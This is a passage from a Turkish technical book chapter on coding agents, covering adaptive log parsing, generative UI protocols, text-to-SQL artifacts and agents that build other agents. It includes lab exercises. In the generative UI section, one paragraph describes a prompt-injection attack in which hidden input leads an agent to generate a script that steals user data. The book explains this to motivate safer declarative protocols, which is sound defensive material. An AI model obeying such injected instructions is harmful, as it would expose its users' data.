> **Kabul kriterleri**: Agent, videodaki farklı sahneleri doğru biçimde belirleyebilir ve doğal dil talimatlarına dayanarak düzenleme betiklerini doğru biçimde üretebilir. Başlangıç ve bitiş noktaları doğrudur (3 saniye içinde hata). Talimatlar özel efekt gereksinimleri (ağır çekim, geçişler, altyazılar) içeriyorsa, üretilen video efektleri doğru biçimde uygular. Reviewer Agent belirgin hataları (kilit içeriğin eksik olması, ilgisiz parçaların dahil edilmesi) tespit edebilir ve düzeltmeleri tetikleyebilir. Nihai çıktı video dosyası doğru formata sahiptir ve beklenen kaliteyi karşılar.
>
### Bir Sistem Adaptörü Olarak Kod

Önceki bölümlerdeki kod çoğunlukla "insanla yüzleşen" şeyler üretiyordu — raporlar, slaytlar, arayüzler. Bu bölümdeki kod başka bir yöne işaret ediyor: **makineyi makineye bağlamak**. Gerçek sistemlerde, bir Agent'ın konuşması gereken dış servislerin genellikle hazır bir SDK'sı yoktur ve arayüzleri nadiren düzenlidir — eksik dokümantasyon, standart olmayan dönüş formatları, sürümden sürüme kayan alanlar. Agent, birinin önceden bir uyarlama katmanı yazmasını beklemek zorunda değildir. Arayüz dokümantasyonunu anında okuyabilir, veya yalnızca bir veya iki gerçek yanıtı gözlemleyip adaptörü o anda üretebilir: bir HTTP istemcisi oluşturur, kimlik doğrulama başlıklarını derler, standart olmayan dönüş yapısını ayrıştırır ve yukarı akış veri modelini alt akışın tüketebileceği bir şekle çevirir. Kod burada keyfi sistemleri bağlamak için "evrensel yapıştırıcıdır"—bir boşluk olduğunda, onu doldurmak için o anda bir parça yapıştırıcı üretilir. Bu, meta-yeteneğin "sistem arayüzü" yönünün kalbidir. Aşağıda geliştirilen uyarlanabilir log ayrıştırma, bu yeteneğin gözlemlenebilirlik ortamında somutlaşmış halidir: hiç durmadan evrilen log formatlarıyla karşı karşıya olan Agent, benzer şekilde anında ayrıştırma kodu üreterek uyum sağlar.

Bu "evrensel yapıştırıcı" ayrıca **hiç API'si olmayan sistemlere** de genişleyebilir: bir dış sistem yalnızca grafiksel bir arayüz sunduğunda, Agent önce arayüzü Computer Use aracılığıyla (Bölüm 9'da ayrıntılı olarak ele alınır) işletebilir, ardından başarılı işlem dizisini kodda bir RPA aracına sabitleyebilir — aynı görev bir dahaki sefere ortaya çıktığında, yalnızca kodu çalıştırır, hızlı ve kararlı, hiçbir pahalı görsel reasoning gerekmeden. RPA, denilebilir ki, sistem adaptörünün uç noktasıdır: hiç arayüzü olmayan sistemler için bir adaptör. Bu "iş akışı kaydetme ve sabitleme" mekanizması Bölüm 8'de geliştirilir.

Veri işleme, yazılım sistemlerindeki en yaygın — ve en yorucu — görevlerden biridir. Kök neden, veri formatlarının çeşitli olması ve asla durgun kalmamasıdır. Tek bir sistem, evrildikçe formatlarını birçok kez değiştirebilir — yeni alanlar, yeniden yapılandırılmış iç içe geçme, yeni türler. Her format için elle bir ayrıştırıcı yazmak cezalandırıcı bir bakım maliyeti taşır: her değişiklik, ayrıştırma mantığını güncellemek, uyumluluğu test etmek ve yeni bir sürüm göndermek anlamına gelir.

Kod üretimi tamamen farklı bir yaklaşım sunar: Agent yeni bir formatla karşılaştığında, örnek veriden anında ayrıştırma kodu üretir, böylece sistem hiçbir insan müdahalesi olmadan formatların evrimini otomatik olarak takip eder.

**Agent Log Ayrıştırma ve Görselleştirme.**

Agent sistemlerinin gözlemlenebilirliği, yürütme akışlarının görselleştirilmesine bağlıdır. Karmaşık bir Agent görevi, birden fazla LLM çağrısı, düzinelerce araç yürütmesi ve birden fazla alt Agent arasındaki etkileşimler dahil olmak üzere yüzlerce adım içerebilir. Bu veriyi görselleştirmek birden fazla zorlukla karşı karşıyadır: farklı araçlar veriyi farklı yapılarda döndürür ve formatlar sistem yinelemeleriyle evrilir; eksiksiz bir trajectory yüz binlerce karakter içerebilir, genel bakış ile ayrıntı arasında bir denge gerektirir.

Kod üretimi zarif bir çözüm sunar: bir otomatik onarım geri bildirim döngüsü kurmak. Frontend ayrıştırılamayan bir log formatıyla karşılaştığında, bir hata göstermek yerine, başarısızlık bilgisini (ham log örneği, ayrıntılı hata) otomatik olarak Agent'a bildirir. Agent örnek veri yapısını analiz eder ve bunu doğru biçimde ayrıştırabilecek frontend kodu üretir. Kod önce sanal bir tarayıcıda otomatik olarak test edilir (ayrıştırma doğruluğunu doğrulama, görselleştirme efektlerini kontrol etmek için bir Vision LLM kullanma) ve geçtikten sonra, frontend sistemine sıcak güncellenir.

> **Deney 5-7 ★★★: Uyarlanabilir Log Ayrıştırma Sistemi**
>
> **Deney Amacı**: Kendi kendine evrilen bir Agent log görselleştirme sistemi inşa etmek.
>
> **Teknik Yaklaşım**: Başlangıç sistemi yalnızca temel formatları destekler. Frontend ayrıştırma başarısızlığını tespit eder → Agent'a bildirir → Ayrıştırma kodu üretir → Sanal tarayıcı testi → Sıcak güncelleme dağıtımı. Tüm süreç otomatiktir.
>
> **Kabul Kriterleri**: Başarısızlıkları otomatik olarak tespit edin ve öğrenmeyi tetikleyin, otomatik testleri geçen kod üretin, sıcak güncellemeden sonra yeni formatları doğru biçimde ayrıştırın.
>

**Agent Yürütme Loglarının Otomatik Analizi ve Sorun Teşhisi.**

Üretimdeki Agent'lar büyük hacimde trajectory logu üretir (her görevin eksiksiz sürecini kaydeder). Ancak, bu loglardan sorunları belirlemek, kök nedenleri bulmak ve test durumları oluşturmak yüksek maliyetli bir çabadır. Sorun lokalizasyonu zordur çünkü görev başarısızlıkları birden fazla modül genelinde iş birliği hatalarından kaynaklanabilir; yeniden üretim maliyetleri yüksektir çünkü üretim ortamının karmaşıklığını bir test ortamında simüle etmek zordur; ve düzeltilmiş sorunlar sistematik regresyon testi eksikliği nedeniyle tekrarlanma eğilimindedir.

Kod üretimi teşhis için otomatikleştirilmiş bir yol sağlar. Agent üretim loglarını okuyabilir, bunları mimari dokümanları ve PRD'lerle (Ürün Gereksinim Dokümanları) birleştirerek yürütme akışının beklentileri karşılayıp karşılamadığını otomatik olarak belirleyebilir ve sorunlu bileşenleri ve modülleri belirleyebilir. Analiz sonuçlarına dayanarak, yapılandırılmış sorun raporları (öncelik, modül, açıklama, iyileştirme önerileri) ve regresyon test durumları üretir—test durumları sorun trajectory ID'sine ve kilit etkileşim turlarına başvurur ve test çerçevesi bunları otomatik olarak yeniden oynatarak düzeltilmiş sistemin aynı girdi için doğru davranış ürettiğini doğrular. Son olarak, Agent bir Issue oluşturmak ve ilgili geliştiriciye atamak için MCP aracılığıyla GitHub'a bağlanır, sorun keşfinden görev atamasına kadar tam otomasyonu tamamlar.

> **Deney 5-8 ★★★: Üretim Logları için Akıllı Teşhis Sistemi**
>
> **Deney Amacı**: Üretim trajectory'lerinden sorunları otomatik olarak keşfetmek, test durumları üretmek ve iş öğeleri oluşturmak.
>
> **Teknik Yaklaşım**: Agent üretim trajectory'leri kümesini okur, bunları sistem mimarisi dokümanları ve PRD'lerle birlikte analiz eder: sorun kalıplarını belirler, ilgili modülleri bulur. Yapılandırılmış sorun raporları (öncelik, modül, açıklama, iyileştirme önerileri) üretir. Otomatik olarak regresyon test durumları üretir (trajectory ID'lerine ve etkileşim turlarına başvurur, test çerçevesi tarafından otomatik olarak yeniden oynatılır ve doğrulanır). MCP aracılığıyla GitHub'da otomatik olarak Issue'lar oluşturur.
>
>
> 
>
>
### Üretici UI Olarak Kod

Geleneksel Agent sistemleri kullanıcılarla esas olarak düz metin diyaloğu aracılığıyla etkileşime girer. Ama metin doğrusal, tek boyutlu bir ortamdır ve birçok senaryoda verimsizdir. Yapılandırılmış bilgi toplamak uzun bir soru gidiş-geliş serisine dönüşür; karmaşık veri ilişkileri düz metnin ifade edebileceklerini zorlar; ve kullanıcının seçenekler arasından seçim yapması gerektiğinde, bir metin listesi görsel bir arayüzden çok daha az sezgiseldir.

Kod üretimi bu sınırlamaları aşma olasılığı sunar: Agent'lar formları, etkileşimli grafikleri ve hatta eksiksiz web uygulamalarını dinamik olarak üretebilir, statik metin diyaloğunu zengin çok modlu etkileşime yükseltebilir. Agent'ın arayüzü dinamik olarak ürettiği bu kalıba **Üretici UI (Generative UI)** denir.

**A2UI Benzeri Protokoller: Üretici UI'ı Standartlaştırmak.**

Agent'lar UI olarak doğrudan HTML ve JavaScript kodu ürettiğinde, temel bir güvenlik sorunu vardır: üretilen kod kötü niyetli içerik barındırabilir. Örneğin, biri kasıtlı olarak girdide bir talimat gizlerse, Agent prompt injection ile manipüle edilebilir, bilmeden kullanıcı verisini gizlice çalan bir betik üretebilir. Nedensellik açıklığa kavuşturulmalı: neden **prompt injection**dır (Agent'ın girdisine karışan kötü niyetli talimatlar), tarayıcıda kötü niyetli betikleri yürütmenin ve veriyi çalmanın **etkisi** ise geleneksel Web XSS'ine (Cross-Site Scripting) benzer—tüm saldırı basitçe XSS olarak adlandırılmamalıdır. A2UI (Agent-to-User Interface) tarafından temsil edilen bildirimsel arayüz protokolleri daha güvenli bir yön sunar: Agent doğrudan çalıştırılabilir kod üretmez, yalnızca bir "UI açıklama manifestosu" (JSON formatında) çıktı verir, örneğin "Lütfen 3 satır ve 2 sütunlu, 'Satış Verisi' başlıklı bir tablo göster." Bu manifestoyu aldıktan sonra, istemci arayüzü kendi önceden tanımlanmış, güvenli bileşenlerini kullanarak render eder. Bu bir restoran menüsü gibidir: müşteri (Agent) yalnızca menüdeki (önceden tanımlanmış bileşenler) yemekleri sipariş edebilir, mutfağa girip kendisi pişiremez (keyfi kod yürütemez). Yaygın bir karışıklık netleştirilmeye ihtiyaç duyuyor: AG-UI (Agent-User Interaction, CopilotKit tarafından önerilen), benzer adına rağmen, bir UI açıklama dili değildir, bunun yerine Agent'ın yürütme durumunu (mesajlar, tool call'lar, durum yamaları) frontend'e akıtmaktan sorumlu destekleyici bir **olay/taşıma protokolüdür**. Hatta A2UI gibi UI yüklerini taşıyabilir. Bu yüzden, tamamlayıcıdırlar, aynı kategoride değildirler ve aynı "bildirimsel arayüz protokolü" olarak birlikte listelenmemelidir.

Bu tür protokollerin temel tasarım ilkesi **güvenlik önceliklidir**: istemci güvenilir bir bileşen kataloğu tutar (örn. Card, Button, TextField, Table) ve Agent yalnızca kataloğa zaten dahil olan bileşenleri render etmeyi isteyebilir, keyfi kod enjekte edemez. İstemci, Agent tarafından üretilen keyfi HTML'i yürüterek değil, kendi yerel bileşenlerini kullanarak render eder. Bu protokoller tipik olarak ayrıca **platformlar arası** (aynı açıklama React, Flutter, yerel uygulamalarda render edilir) ve **artımlı üretimi** (akış JSONL formatı, alındıkça render edilir) destekler.

Elbette, bildirimsel yaklaşım standartlaştırılmış etkileşim senaryoları (formlar, tablolar, kartlar) için uygundur, oysa son derece özelleştirilmiş ihtiyaçlar için (örn. özel görselleştirmeler, oyun arayüzleri), doğrudan kod üretimi daha esnek bir seçim olmaya devam eder. Aşağıda her iki kalıbın belirli uygulamaları var.

**Sonuçları HTML ile Teslim Etmek: Markdown Raporların Yerini Almak.** Üretici UI yalnızca etkileşim sırasında kullanılmaz, aynı zamanda Agent'ın nihai **teslimatının** biçimini de değiştirir. Geleneksel olarak, bir Agent bir görevi bitirir ve bir Markdown rapor teslim eder; ama doğrusal olarak düzenlenmiş Markdown'da sayfa çevirmek hoş bir okuma yolu değildir. Agent'lar frontend kodu üretmede daha iyi hale geldikçe, pratik doğrudan HTML üretmeye kaymaktadır. Markdown ile karşılaştırıldığında, HTML teslimatlarının birkaç belirgin avantajı vardır. Birincisi, **etkileşimli gösterimler**: sistemin nasıl çalıştığını uygulanabilir bir biçimde doğrudan gösterebilirler, kullanıcılar genellikle bunu bir bakışta anlar, uzun metin açıklamalarından çok daha iyi. İkincisi, **daha iyi veri görselleştirme**: veriyi sunmak için tablolar yerine grafikler kullanmak ve kullanıcıların ilgilendikleri ayrıntıları göz atmasına, filtrelemesine ve derinlemesine incelemesine izin veren etkileşimli bileşenler inşa etmek. Üçüncüsü, **sürekli iyileştirilebilir teslimatlar**: bir HTML web sitesi yalnızca bir görevin sonunda üretilen statik bir artifact olmak zorunda değildir; iş ilerledikçe Agent tarafından sürekli olarak tamamlanabilir ve iyileştirilebilir.

Yazarın araştırma makaleleri yazma deneyimini örnek alalım: her araştırma projesi için, yazar etkileşimli bir web sitesi tutar[^ch5-4]. Bu, hem nihai teslimat hem de araştırma süreci boyunca yaşayan bir doküman görevi görür—yazar deneyler ilerledikçe Agent'ın bunu sürekli güncellemesini sağlar. Bu web sitesi en az üç amaca hizmet eder. Birincisi, **deney veri izlenebilirliği**: her deneyin belirli verisi, kullanılan prompt'lar ve LLM'in ham yanıtları hepsi sitede madde madde incelenebilir; her şeyi açıkça ortaya sermek, veri oluşumundaki, formatındaki ve dağılımındaki sorunları fark etmeyi ve LLM'in yanıtlarındaki veya hakemin puanlamasındaki sistematik önyargıları fark etmeyi kolaylaştırır. İkincisi, **eğitim metriği izleme**: eğitim eğrileri doğrudan sayfaya yerleştirilir, modelin **içsel sağlık metriklerinin** sağlam olduğunu her an teyit etmeyi kolaylaştırır. Terim tıptan ödünç alınmıştır: bunlar eğitim sürecinin kendisinin sağlıklı olup olmadığına dair içsel sinyallerdir—eğitim ve doğrulama kaybı, gradyan normu, öğrenme hızı, modelin token yayarken şaşkınlığı (kendi çıktısına dair "güveninin" bir ölçüsü) ve pekiştirmeli öğrenmede ödül, KL sapması ve politika entropisi. Bunlar görev doğruluğu gibi nihai sonuç metriklerinden farklıdır: tıpkı bir kontrolde fizyolojik okumaların bir kişinin dış performansından ayrı durması gibi, içsel sağlık metrikleri genellikle sorunları—yakınsamayan kayıp, patlayan gradyanlar, eğitim çöküşü—çok daha erken ortaya çıkarır. Üçüncüsü, **çalışma ilkesi gösterimi**: görselleştirme, tüm sistemin nasıl çalıştığını açığa çıkarır, böylece bu yapay zeka ile inşa edilen sistemin yapısı bir bakışta kavranabilir.

[^ch5-4]: Yazarın araştırma proje web sitesi https://01.me/research/ adresinde bulunabilir, her proje sürekli güncellenen etkileşimli bir web sitesine sahiptir.

**Kullanıcı Niyetini Netleştirmek.**

Kullanıcı gereksinimleri belirsiz veya eksik olduğunda, Agent gerekli bilgiyi toplamak için sorular sorarak netleştirmelidir. OpenAI Deep Research gibi ürünler tipik olarak metin soru-cevabı yoluyla netleştirir, bunun net sınırları vardır: verimlilikte, her soru bir diyalog turuna mal olur, bu yüzden on netleştirme noktası on tura mal olur; ifade gücünde, bazı sorular diğerlerine bağlıdır (seyahat hedefinin seçimi ulaşım moduna dair seçenekleri kısıtlar), basamaklı bir yapıyı düz metin aktarmakta zorlanır.

Kod üretimi aracılığıyla, Agent metin tabanlı soru-cevabın yerini almak için yapılandırılmış etkileşimli arayüzler oluşturabilir. Şekil 5-8, dinamik form üretim sürecini gösterir, Agent'ın netleştirme sorularını tek seferde doldurulabilecek yapılandırılmış bir arayüze nasıl dönüştürdüğünü gösterir. Agent, çeşitli girdi kontrolleri içeren bir HTML formu üretir—açık uçlu bilgi için metin kutuları, önceden tanımlanmış seçenekler için açılır menüler, çoklu seçimler için onay kutuları ve basitleştirilmiş zaman girdisi için tarih seçiciler. Daha ileri giderek, Agent basamaklı formlar üretebilir—JavaScript aracılığıyla dinamik mantık uygular: seçimlere göre sonraki soruları otomatik olarak gösterir veya gizler, mevcut seçenekleri dinamik olarak günceller. Kullanıcı tüm formu bir kerede doldurur, birden fazla diyalog turunu ortadan kaldırır ve tüm gereken bilgiyi ve sorular arasındaki mantıksal ilişkileri açıkça görebilir.




> **Deney 5-9 ★★: Dinamik Formlarla Niyet Netleştirme Sistemi**
>
> **Deney Amacı**: Agent'ın HTML formlarını dinamik olarak üreterek kullanıcı niyetini netleştirme yeteneğini doğrulamak.
>
> **Teknik Yaklaşım**: Agent kullanıcının isteğini analiz eder, netleştirme noktalarını belirler ve basamaklı mantığa sahip form kodu üretir. Frontend bunu render eder, kullanıcı bir kez gönderir ve Agent görevi sürdürmek için JSON verisini ayrıştırır.
>
> **Kabul Kriterleri**: Kullanıcı "Pekin'e bir uçuş ayırtmak istiyorum" girer. Agent şunları içeren bir form üretir: kalkış şehri (metin girdisi), kalkış tarihi (tarih seçici), seyahat türü (radyo: tek yön/gidiş-dönüş), dönüş tarihi (yalnızca "gidiş-dönüş" seçildiğinde gösterilir). Kullanıcı tüm bilgiyi bir kerede gönderir.
>

**SQL Sorguları Üretmek.**

Veritabanı sorgulama, kod üretiminin etkileşim deneyimini önemli ölçüde iyileştirebileceği bir senaryodur. Geleneksel veritabanı erişimi GUI araçlarına veya elle yazılmış SQL'e dayanır; birincisi işletmesi hantaldır, ikincisi kullanıcının özelleşmiş bilgiye sahip olmasını gerektirir. Bir Agent doğal dili SQL'e çevirebilir, ama burada kilit bir tasarım seçimi var: Agent SQL'i yürütüp sonuçları doğal dilde mi açıklamalı, yoksa Agent SQL kodunu frontend'in doğrudan yürütmesi için bir artifact olarak mı üretmeli?

Birinci yaklaşım daha "akıllı" görünür ama son derece verimsizdir—büyük bir tabloya karşı bir sorgu binlerce satır döndürebilir. LLM'in tüm bunu okuyup metin olarak açıklamasını sağlamak token ve zaman yakar ve daha kötüsü, LLM'ler veriyi "kopyalarken" meşhur biçimde hataya açıktır. Daha iyi bir yaklaşım **artifact kalıbıdır**. Şekil 5-9, bir SQL sorgusu Agent'ının iş akışını gösterir: Agent verinin kendisini okumaz. Bunun yerine, bir SQL sorgu kodu parçası üretir ve bu kodu sisteme bağımsız bir "artifact" olarak verir. Sistem bu SQL'i alır ve veritabanını doğrudan sorgular, getirilen veriyi kullanıcıya görünür bir tabloya render eder. Bu süreç boyunca, veri doğrudan veritabanından kullanıcı arayüzüne akar, LLM "aracısını" tamamen atlar—LLM yalnızca sorgu ifadesini yazmaktan sorumludur, binlerce satır veriyi okuyup kullanıcıya yeniden anlatmaktan değil. Bu hem hızlı hem de doğrudur.




Daha ileri giderek, Agent bir boru hattı oluşturan iki artifact üretebilir: SQL sorgusu + görselleştirme kodu (örn. bir çubuk grafik). Frontend, SQL sonuçlarını doğrudan görselleştirme koduna geçirir. LLM yalnızca kodu üretmekten sorumludur, veri aktarımına katılmaktan değil—bu, bir arayüz olarak kod üretiminin özüdür.

> **Deney 5-10 ★★: Doğal Dil Etkileşimli ERP Agent'ı**
>
> ERP (Kurumsal Kaynak Planlaması) yazılımı, işletmeler için kritik bir sistemdir, tipik olarak karmaşık işlemlerin birden fazla fare tıklaması gerektirdiği bir GUI arayüzü kullanır. Bir Yapay Zeka Ajanı, kullanıcının doğal dil sorgularını SQL ifadelerine dönüştürerek otomatikleştirilmiş sorgulamayı mümkün kılabilir.
>
> Gereksinimler: İki tablo içeren bir PostgreSQL veritabanı kurun: (1) Çalışan tablosu, çalışan ID'si, ad, departman, seviye, işe alım tarihi, istifa tarihi (NULL şu anda çalıştığı anlamına gelir) dahil; (2) Maaş tablosu, çalışan ID'si, ödeme tarihi, maaş (ayda bir kayıt) dahil. Agent otomatik olarak yanıtlar:
>
> 1. Her çalışanın ortalama kıdemi nedir?
> 2. Her departmanda kaç aktif çalışan var?
> 3. Hangi departmanın ortalama çalışan seviyesi en yüksek?
> 4. Bu yıl ve geçen yıl her departmana kaç yeni çalışan katıldı?
> 5. Önceki yılın Mart'ından geçen yılın Mayıs'ına kadar A departmanının ortalama maaşı neydi?
> 6. Geçen yıl A ve B'den hangi departmanın ortalama maaşı daha yüksekti?
> 7. Bu yıl her seviyedeki çalışanların ortalama maaşı nedir?
> 8. Kıdemi bir yıldan az, bir ila iki yıl ve iki ila üç yıl olan çalışanlar için son ayın ortalama maaşı nedir?
> 9. Geçen yıldan bu yıla en büyük maaş artışını hangi 10 çalışan aldı?
> 10. Ödenmemiş ücret durumu var mı (bir ayda çalışılmış ama maaş kaydı yok)?
>

**Yazılımı Dinamik Olarak Üretmek.**

Kod üretiminin nihai uygulaması, Agent'ın yazılımı tamamen dinamik olarak, sıfırdan yaratmasına izin vermektir. Anthropic'in "Imagine with Claude"u sınırı işaretler: kullanıcı bir istek yapar, Claude frontend arayüzünü ve etkileşim mantığını gerçek zamanlı olarak üretir, kullanıcı üretilen yazılımla etkileşime girer ve Claude, sonuçları gösteren yeni bir arayüz üretmek için kodu değiştirir. Kullanıcı bir uygulamanın yoktan var olduğunu ve evrilmeye devam ettiğini izler.

Ancak tam dinamik üretim maliyetlidir ve yavaştır—üretimden çok neyin mümkün olduğunu göstermeye daha uygundur. Daha pragmatik bir yön, **mevcut bir çerçeve üzerine özelleştirilmiş değişikliktir**. Bu "yarı özel" model, temel yazılımın kararlılığını korurken belirli boyutları kullanıcı kontrolüne açar—kullanıcı "düğmeyi mavi yap," "kenar çubuğuna bir kısayol menüsü ekle," "daha okunabilir bir yazı tipine geç" der; Agent frontend kodunu anlar ve değiştirir, ve HMR (Hot Module Replacement—uygulama durumunu koruyan ve tam sayfa yenilemesi olmadan etkili olan kısmi sıcak değiştirme) bunu anında uygular. Tek beden herkese uyar ürünü, her kullanıcıya kişiselleştirilmiş bir deneyime dönüşür.

> **Deney 5-11 ★★: Konuşmalı Arayüz Özelleştirme Sistemi**
>
> **Deney Amacı**: Kullanıcıların doğal dil diyaloğu yoluyla yazılım arayüzünü anında özelleştirme yeteneğini uygulamak, sıcak yeniden yükleme mekanizmalarıyla desteklenen kod üretiminin kişiselleştirilmiş kullanıcı deneyimleri sunmadaki etkinliğini doğrulamak.
>
> **Teknik Yaklaşım**: Temel bir chatbot uygulaması (React frontend + FastAPI backend) inşa edin, hem frontend hem de backend sıcak yeniden yüklemeyi (React'ın HMR'si, FastAPI'nin reload'u) destekleyen geliştirme modunda çalışır. Kullanıcılar konuşma sırasında UI özelleştirme gereksinimleri (renkler, yazı tipleri, düzen, bileşen konumları vb.) önerir. Agent kodu otonom olarak değiştirir. Sıcak yeniden yükleme mekanizması dosya değişikliklerini otomatik olarak tespit eder, frontend yeniden derlenir ve yenilenir ve kullanıcı arayüz değişikliklerini gerçek zamanlı olarak görür. Birden fazla yinelemeli özelleştirme turunu destekler.
>
### Kodun Kod Yaratması: Agent Bootstrapping

Önceki bölümler kod üretimini bir alandan diğerine izledi—matematiksel reasoning'den doküman oluşturmaya, arayüz özelleştirmesine kadar. Bu yetenekleri sınırlarına kadar itin ve doğal bir soru ortaya çıkar: bir Agent, başka bir Agent yaratmak için kod üretimini kullanabilir mi?

Önce, Bölüm 8 ile iş bölümünü netleştirmemiz gerekiyor. Bu bölüm, Agent'ların kodu kullanarak **kendi türlerinden Agent'ları onarması ve yaratması**—kendi kendini onarma, kendi kendini çoğaltma ve ihtiyaç halinde yeni Agent'lar üretme—konusunu tartışır, hedef Agent'ın kodu ve yapısıdır. Bölüm 8'in "kendi kendine evrimi" farklı bir meseledir, bir Agent'ın **model ağırlıklarını değiştirmeden** yeteneklerini sürekli büyütme yeteneğini (deneyim biriktirme, prompt'ları optimize etme, bir araç kütüphanesi inşa etme) ifade eder, hedef Agent'ın bilgisi ve stratejileridir. İkisi de "evrim" olarak adlandırılabilir, ama Bölüm 8'in başlığıyla karışıklığı önlemek için, bu bölüm bu "kod-üreten-Agent" yeteneğini ifade etmek için **bootstrapping**i kullanır.





**Agent Kendi Kendini Onarma: OpenClaw Doctor.**

Agent bootstrapping için kritik bir ön koşul, kendi kendini onarma yeteneğidir. OpenClaw'daki `doctor` komutu bu yeteneği somutlaştırır—üç tür sorunu otomatik olarak tespit edebilir:

- **Yapılandırma anormallikleri**: Süresi dolmuş OAuth token'ları, eski yapılandırma formatları, port çakışmaları
- **Durum sorunları**: Bayat oturum kilit dosyaları, eksik eklenti bağımlılıkları
- **Servis sağlığı sorunları**: Gateway çalışmıyor, eksik sandbox imajları

Ardından bunları katmanlı bir onarım stratejisi aracılığıyla otomatik olarak çözer: güvenli düzeltmeler (yapılandırma normalleştirme, kilit dosyası temizleme) otomatik olarak yürütülür; riskli işlemler (servis yeniden başlatmaları, zorunlu yapılandırma üzerine yazmaları) kullanıcı onayı gerektirir.

Bunu abartmayalım: süresi dolmuş token'lar, bayat kilit dosyaları ve port çakışmaları gibi yüksek frekanslı sorunların net tespit kuralları ve sabit onarım eylemleri vardır ve `doctor` bunları **önce bir dizi deterministik kontrolle kapsar**—geleneksel bir operasyon betiğinden türünde farklı değildir. Agent yeteneğinin gerçekten göründüğü yer ikinci katmandır: deterministik kuralların kapsamadığı zor sorunlar için, `doctor` hata loglarını analiz etmek, yapılandırma dosyalarının semantiğini anlamak, neden ve sonucu çıkarmak ve hedefe yönelik bir onarım planı üretmek üzere bir LLM'e devreder. Deterministik kontroller yaygın sorunları güvenilir biçimde düzeltir; LLM uzun kuyruğu destekler—ve iki katman birlikte, `doctor --fix` yaygın gateway sorunlarının önemli bir bölümünü otomatik olarak çözebilir. Bu "Agent'ın Agent'ı onarması" kalıbını dikkate değer kılan şey: Agent'ın çalışma nesnesi artık bir dış sistem değil kendi çalışma zamanı ortamı olduğunda, kendi kendini onarma bir sistem adaptöründen Agent bootstrapping'in altyapısına yükseltilir.

**Bir Agent'a Bir Agent Yazdırmanın Kilit Teknikleri.**

Yüksek kaliteli bir Agent yaratmak, sıradan uygulama kodu üretmekten çok daha zordur, çünkü Agent mimari kalıplarına, en iyi uygulamalara ve yaygın tuzaklara dair derin bir anlayış talep eder. Bu alan uzmanlığı olmadan, en güçlü kod üretim modelleri bile ciddi mimari kusurları olan Agent'lar üretir. Yaygın olanlar:

1. **Gelişigüzel context yönetimi**: Bölüm 2'de tartışılan standart context formatını kullanmamak, trajectory'leri düz metin olarak context'e tıkıştırmak, yapılandırılmış mesajlardan gelen KV Cache optimizasyonlarını göz ardı etmek ve tool call döngülerinde sınır hataları olması
2. **Standart olmayan araç tasarımı**: Belirsiz açıklamalar, eksik kullanım sınırı talimatları ve olumsuz listeler, ve somut örneklerden yoksun parametreler
3. **Güncelliğini yitirmiş teknoloji seçimleri**: Eğitim verisinden en yaygın ama güncelliğini yitirmiş modelleri ve API'leri kullanma eğilimi. Çözüm: Bir SOTA bilgi tabanı tutun veya Agent'ı arama yetenekleriyle donatın
4. **Dış ekosistemle bağlantı kopukluğu**: Kullanımdan kaldırılmış API'ler, bakımı yapılmayan kütüphaneler veya hatalı kalıplar kullanmak

Bu sorunları çözmenin en etkili yolu tüm kuralları prompt'ta kapsamlı biçimde listelemek değil, **yüksek kaliteli Agent uygulamalarını referans örnekler olarak sağlamaktır**, kod üretim Agent'ını sıfırdan başlamak yerine bunları değiştirmeye yönlendirmek.

Örnek tabanlı üretimin avantajı açıktır: örnek kodun kendisi en iyi uygulamaları taşır. Bir örneği değiştiren bir Agent, sıfırdan başlayan birinden daha sık doğru sonuç alır ve iyi mimari seçimler kendi başlarına hayatta kalır—prompt'ta her kuralı yazmaya gerek yoktur.

Bir Agent yeni bir Agent geliştirme görevi aldığında, önce kendi kodunu (veya diğer doğrulanmış, yüksek kaliteli uygulamaları) kopyalamalı, ardından hedefe yönelik değişiklikler yapmalıdır: yeni role uyacak şekilde system prompt'u ayarlamak, yeni işlevlere uyacak şekilde araçları değiştirmek veya eklemek, mimari çerçeveyi korurken iş mantığını değiştirmek. Bu "uyarlanabilir değişiklikle kendi kendini çoğaltma" kalıbı, yeni Agent'ın temel teknik avantajları miras almasını sağlarken belirli boyutlarda farklılaşmaya izin verir—biyolojideki mutasyonlu gen replikasyonuna çok benzer.

> **Deney 5-12 ★★★: Agent'lar Yaratabilen Bir Agent Geliştirmek**
>
> **Deney Amacı**: Metaprogramlama (diğer programları üreten veya değiştiren programlar yazma yeteneği) yeteneklerine sahip bir Kodlama Agent'ı inşa etmek, en iyi uygulamalara uyumu sağlarken kullanıcı gereksinimlerine dayanarak yeni Agent sistemlerini otomatik olarak yaratmasını sağlamak.
>
> **Teknik Yaklaşım**: Kodlama Agent'ına referans örnekler olarak yüksek kaliteli Agent uygulamaları sağlayın (ch5/coding-agent projesinin kendisi kullanılabilir). Yeni bir Agent yaratma görevi verildiğinde, Agent önce bu örnek kodu kopyalar ve ardından kullanıcının belirli ihtiyaçlarına dayanarak hedefe yönelik değişiklikler yapar.
>
> **Kabul Kriterleri**: Üretilen Agent başarıyla çalışabilir ve temel görevleri tamamlayabilir. Standart mesaj formatlarının ve tool call protokollerinin kullanımını ve şu anda önerilen modellerin ve API'lerin kullanımını doğrulayın. Birden fazla konuşma turu genelinde context ve durum yönetiminin doğruluğunu test edin. "Sıfırdan üretim" ve "örneklere dayalı değişiklik" modlarını karşılaştırın, ikincisinin kalite ve verimlilikteki avantajlarını doğrulayın.
>
>
> 
>
>

Agent bootstrapping, kod üretiminin nihai uygulamasıdır—Agent'lar yaratabilen bir Agent, zekanın kendi kendini çoğaltmasını başarır. Bununla, bölümün tam yayını izlemiş olduk: Kodlama Agent'ının temellerinden, kod üretiminin birçok kullanımından, bootstrapping'e kadar.

## Bölüm Özeti

Bu bölüm boyunca tek bir şeyi savundu: kod salt program yazmak için bir araç değildir—bir Agent'ın biçimselleştirilmiş düşünmesinin ve hassas ifadesinin dilidir.

Harness engineering bölümü bir merkezi sonuca ulaştı: Kodlama Agent'ları olgun çünkü kod üretim modelleri istisnai derecede güçlü olduğu için değil, on yıllarca biriken yazılım mühendisliği altyapısı—test kümeleri, tip sistemleri, sürüm kontrolü—doğal olarak güçlü bir Harness oluşturduğu için. Bu sonuç diğer Agent senaryolarına da taşınmayı hak ediyor. Başarısızlık ve hata kurtarma bölümü aynı temanın diğer yüzünü sunuyor: bir Agent'ın güvenilirliği modelin hata yapıp yapmadığıyla değil, her başarısızlık sınıfının karşılık gelen bir tespit, kurtarma ve sonlandırma yoluna sahip olup olmadığıyla belirlenir.

İkinci kısım, ana metindeki altı boyuta karşılık gelen, kod üretiminin programlamanın ötesindeki geniş değerini gösterdi:

